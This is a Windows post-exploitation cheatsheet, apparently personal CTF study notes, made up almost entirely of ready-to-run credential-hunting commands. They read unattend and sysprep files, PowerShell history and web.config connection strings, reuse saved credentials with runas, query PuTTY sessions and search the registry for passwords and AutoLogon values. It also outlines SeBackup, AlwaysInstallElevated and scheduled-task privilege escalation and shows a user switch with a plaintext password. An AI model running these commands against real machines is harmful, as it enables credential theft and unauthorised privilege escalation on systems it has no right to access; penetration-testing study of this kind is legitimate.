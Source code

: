 ## Windows Post-Exploitation Cheatsheet

### Unattended Windows Installations (Location of creds sometimes)

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

### PowerShell History

```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Saved Windows Credentials

```cmd
cmdkey /list
runas /savecred /user:admin cmd.exe
```

### IIS Configuration (Inside web.config, creds may be found)

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### Retrieve Credentials from Software: PuTTY

```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

### Scheduled Tasks

Some scheduled tasks' binaries can be modified after finding out the user privilege.

### AlwaysInstallElevated

Some installer files can run with admin privileges.

### Insecure Permissions on Service Executable

(Can be only found in CTF)

### Current User with SeBackup / SeRestore Access

This access can be abused and SAM content and SYSTEM registry hive can be copied to extract the admin credentials.

🔗 [https://0xdf.gitlab.io/2025/02/15/htb-cicada.html#exploit-sebackupprivilege](https://0xdf.gitlab.io/2025/02/15/htb-cicada.html#exploit-sebackupprivilege)

### Unpatched Software

### Registry - Password

The registry can be searched for keys and values that contain the word "password":

```cmd
reg query HKLM /f password /t REG_SZ /s
```

To find admin AutoLogon credentials:

```cmd
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

---

🔗 Reference: [https://sec-fortress.github.io/posts/thm/posts/Retro.html](https://sec-fortress.github.io/posts/thm/posts/Retro.html)
It has webshell and how to get reverse shell

---

### Windows Equivalent of Switch Users Using PowerShell

```powershell
PS C:\> hostname
Sniper
PS C:\> $user = "Sniper\Chris"
PS C:\> $pass = "36mEAhz/B8xQ~2VM"
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
PS C:\> Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
sniper\chris
```

---
